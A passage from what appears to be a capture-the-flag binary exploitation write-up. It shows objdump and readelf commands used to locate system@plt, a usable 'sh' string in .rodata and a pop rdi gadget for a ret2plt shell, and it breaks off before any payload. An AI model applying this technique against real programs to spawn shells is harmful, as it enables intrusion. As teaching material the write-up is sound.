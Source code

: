 Using the `PLT` we can easily return to any function used in a
`-no-pie` compiled executable. Let's try calling `system@plt`
with "/bin/sh" as argument.

For that we will need to find:

* `system@plt`

* "/bin/sh"

* `pop rdi; ret`

### `system@plt`

To get the `system@plt` address, one easy way of doing it is
with `objdump -M intel -D rip | grep system@plt`:

```
0000000000400580 <system@plt>:
  4006c1:	e8 ba fe ff ff       	call   400580 <system@plt>
```

Now we know the `system@plt` address is `0x400580`.

### "/bin/sh"

Now we need to find a "/bin/sh" string in the executable. We can
easily check the constant strings in the executable with
`readelf -p .rodata rip` and filter our results with `grep`. By using
`readelf -p .rodata rip | grep "/bin/sh" we get`:

```
```

Well... nothing. But we can also try just "sh", since "/bin/sh"
is usually also in the PATH. `readelf -p .rodata rip | grep sh`
returns:

```
  [    35]  secret_hash
  [    58]  i don't feel like giving you a shell though
```

The second result doesn't work. We would be invoking
`shell though`, which doesn't really do anything.

The first result though, can be used! To get the exact address of
the `sh` substring, we just need to add `0x35` + `0x9` = `0x3e`
(offset of `secret_hash` to the beginning of the `rodata` section
and offset of `sh` substring to the beginning of `secret_hash`).

Now we just need to add `0x3e` to the offset of the `rodata` section
from the beginning of the executable, which we can get with 
`readelf --sections rip | grep rodata`:

```
  [15] .rodata           PROGBITS         0000000000400830  00000830
```
